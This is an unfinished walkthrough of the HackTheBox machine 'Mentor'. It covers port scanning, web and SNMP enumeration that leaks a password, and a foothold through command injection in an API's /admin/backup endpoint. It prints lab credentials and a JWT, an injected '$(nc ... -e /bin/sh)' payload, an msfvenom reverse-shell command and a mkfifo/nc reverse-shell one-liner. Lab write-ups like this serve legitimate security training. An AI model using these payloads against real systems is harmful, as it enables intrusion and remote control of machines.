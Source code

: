 ```yaml
---
title: "Mentor"
date: 2025-02-01
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "mentor", "htb writeup", "htb walkthrough", "hackthebox", "writeup"]
---
```


# Mentor

# Mentor
OS: Linux
Difficulty: Medium
Note: Previously User Owned

## Credentials
```text
james : kj23sadkj123as0-d213
user1 : passworddd (new user created)
```

# Enumeration
# Nmap
TCP
```sh
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c7:3b:fc:3c:f9:ce:ee:8b:48:18:d5:d1:af:8e:c2:bb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBO6yWCATcj2UeU/SgSa+wK2fP5ixsrHb6pgufdO378n+BLNiDB6ljwm3U3PPdbdQqGZo1K7Tfsz+ejZj1nV80RY=
|   256 44:40:08:4c:0e:cb:d4:f1:8e:7e:ed:a8:5c:68:a4:f7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJjv9f3Jbxj42smHEXcChFPMNh1bqlAFHLi4Nr7w9fdv
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://mentorquotes.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Device type: general purpose
```

UDP
```sh
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-13 06:16 AEST
Nmap scan report for mentorquotes.htb (10.10.11.193)
Host is up (0.019s latency).

PORT      STATE         SERVICE      VERSION
53/udp    closed        domain
67/udp    closed        dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   closed        ntp
135/udp   open|filtered msrpc
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   closed        netbios-ssn
161/udp   open          snmp         SNMPv1 server; net-snmp SNMPv3 server (public)
162/udp   closed        snmptrap
445/udp   open|filtered microsoft-ds
500/udp   open|filtered isakmp
514/udp   closed        syslog
520/udp   open|filtered route
631/udp   open|filtered ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  open|filtered nat-t-ike
49152/udp closed        unknown
Service Info: Host: mentor
```
# HTTP
http://mentorquotes.htb/
![screenshot](/assets/images/mentor1.png)
## Fuzzing

```sh
dirsearch -e php,asp,aspx,jsp,py,txt,conf,config,bak,backup,swp,old,db,sql -u http://mentorquotes.htb:80

gobuster dir -u http://mentorquotes.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -x php -t 50 -o gobuster_root

# sub-domain fuzzing (vhost)
ffuf -u http://mentorquotes.htb -H "Host: FUZZ.mentorquotes.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac

gobuster dns -u http://mentorquotes.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

![screenshot](/assets/images/mentor2.png)

/server-status

## Subdomain fuzzing
![screenshot](/assets/images/mentor3.png)

## api.mentorquotes.htb
![screenshot](/assets/images/mentor4.png)

```sh
# Enumerating API with Gobuster
gobuster dir -u http://api.mentorquotes.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/api/objects.txt -p pattern

# pattern
{GOBUSTER}/v1
```

![screenshot](/assets/images/mentor6.png)

/admin
![screenshot](/assets/images/mentor5.png)

/users
![screenshot](/assets/images/mentor7.png)

```sh
ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ -recursion -recursion-depth 1 -e .php -v

ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt:FUZZ -u http://api.mentorquotes.htb/FUZZ -recursion -recursion-depth 2 -e .php 
```

## api.mentorquotes.htb/docs
![screenshot](/assets/images/mentor9.png)
![screenshot](/assets/images/mentor11.png)
![screenshot](/assets/images/mentor12.png)

# SNMP
```sh
# Enumerate community strings
onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt 10.10.11.193
```

![screenshot](/assets/images/mentor16.png)

![screenshot](/assets/images/mentor17.png)

```sh
# enumerate all the currently running processes
snmpwalk -c internal -v1 10.10.11.193 1.3.6.1.2.1.25.4.2.1.2
```

![screenshot](/assets/images/mentor18.png)

![screenshot](/assets/images/mentor19.png)

`iso.3.6.1.2.1.25.4.2.1.5.2134 = STRING: "/usr/local/bin/login.py kj23sadkj123as0-d213"`


# Foothold
## AbusingAPI 
### Check what HTTP methods are accepted
![screenshot](/assets/images/mentor8.png)

### Creating a new user 
![screenshot](/assets/images/mentor13.png)

![screenshot](/assets/images/mentor14.png)

![screenshot](/assets/images/mentor15.png)

changed the `Content-Type: application/json`

can also be done via curl
```sh
# sign up as a new user
curl api.mentorquotes.htb/auth/signup -X POST -H 'Content-Type: application/json' -d
'{"email":"pwnmeow@mentor.htb","username":"pwnmeow","password":"password"}'

# login as the newly created user
curl api.mentorquotes.htb/auth/login -X POST -H 'Content-Type: application/json' -d '{"email":"test@email.com","username":"user1","password":"passworddd"}'
```

![screenshot](/assets/images/mentor20.png)

```sh
# james' JWT 
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0
```

Use james' JWT to perform command injection on `/admin/backup`

![screenshot](/assets/images/mentor21.png)
![screenshot](/assets/images/mentor22.png)

Unstable shell

```sh
curl http://api.mentorquotes.htb/admin/backup -H 'Authorization:
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW
50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' -H 'Content-Type:
application/json' -X POST -d '{"path":"$(nc 10.10.14.6 4444 -e /bin/sh)"}'
```

![screenshot](/assets/images/mentor23.png)
???

Revert the machine

![screenshot](/assets/images/mentor24.png)

Uploading a shell 

```sh
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=4444 -f elf > shell.elf

rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.10.14.6 4444 > /tmp/f
```


# Privilege Escalation
## Enumeartion



## Attempt

